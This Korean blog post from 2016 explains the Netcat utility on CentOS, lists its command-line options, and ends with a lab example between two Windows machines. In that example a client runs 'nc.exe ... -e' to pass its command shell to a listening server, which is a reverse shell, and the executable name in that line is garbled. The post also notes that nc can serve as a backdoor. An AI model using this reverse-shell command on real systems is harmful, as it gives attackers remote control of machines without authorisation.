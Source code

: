 ```yaml
---
layout: post
title:  "[CentOS] NC(NetCat)"
date:   2016-09-08 19:23:13
author: Choi HyeSun
categories: infra
tags:
  - CentOS
  - NC
  - NetCat
---
```


## NC(Netcat)

- Netcat(이하 nc)은 Network connection에서 raw-data read, write를 할 수 있는 유틸리티 프로그램

- 일반적으로는 UNIX의 cat과 비슷한 사용법을 가지고 있지만 cat이 파일에 쓰거나 읽듯이 nc는 network connection에 읽거나 씀

- 스크립트와 병용하여 network에 대한 debugging, testing tool로써 매우 편리

- 해킹에도 이용범위가 매우 넓음

- 임의의 TCP, UDP 포트에서 상대방 TCP, UDP로 데이터를 보내는 도구

- nc.exe 실행파일과 명령어를 통해 백도어 기능을 사용할 수 있음

<br>
<br>

## 사용법

- nc \[options] \[target host] \[ports]

- options

  - \-4: IPv4

  - \-6: IPv6

  - \-D: socket 디버깅 가능

  - \-d: STDIN 입력을 읽어들이지 않음

  - \-h: help

  - \-i: send/recv, multiple port 연결 사이의 interval 지정. 

  - \-k: listening 모드로 실행되었을 때 연결이 완료되더라도 프로세스가 종료되지 않도록 하는 옵션.
  <br>-l 옵션과 함께 사용되지 않으면 에러.

  - \-l: listening 모드로 실행. -p, -s, -z 옵션과 함께 사용되면 에러. -w 옵션은 무시됨.

  - \-n: hostname을 ip로만 지정.

  - \-p: source port 지정. -l 옵션과 함께 사용되면 에러.

  - \-r: source/destination port를 범위로 지정했을 때 랜덤한 순서로 연결시도.

  - \-S: RFC 2385 TCP MD5 signature 옵션.

  - \-s: 패킷을 전송할 IP 지정. -l 옵션과 함께 사용되면 에러.

  - \-T: 연결에 ToS 지정.

  - \-C: CRLF line-ending 전송.

  - \-t: netcat을 telnet session으로 사용가능 하게.

  - \-U: Unix Domain Socket을 사용하도록 지정.

  - \-u: UDP 사용.

  - \-v: 과정 출력

  - \-w: connection/stdin timeout 지정. -l 옵션과 함께 사용하면 무시됨. 

  - \-X: proxy version 지정.

  - \-x: proxy server의 hostname, port 지정.

  - \-z: 아무 데이터도 전송하지 않고 listening daemong만 스캔. -l 옵션과 함께 사용하면 에러.
 
<br>
<br>

## 예시

- Server : win7 / ip 192.168.10.64
  <br> Client : win XP / ip 192.168.10.22

- 서버 및 클라이언트에 nc.exe 설치

- IP 주소 확인

- Server

  - C:\\> nc.exe –lvp 1234

  - 1234포트를 열고 nc.exe를 실행한 후 대기
  
- Client

  - C:\\> nc.exe 192.168.10.64 1234 –e 층.exe

  - server의 1234 포트로 접속하여 nc.exe를 실행하고 cmd.exe의 권한을 서버에게 부여

- Server

  - client의 cmd.exe 권한을 가짐
 
  - C:\> ipconfig했을 때 Client의 IP 정보를 볼 수 있음
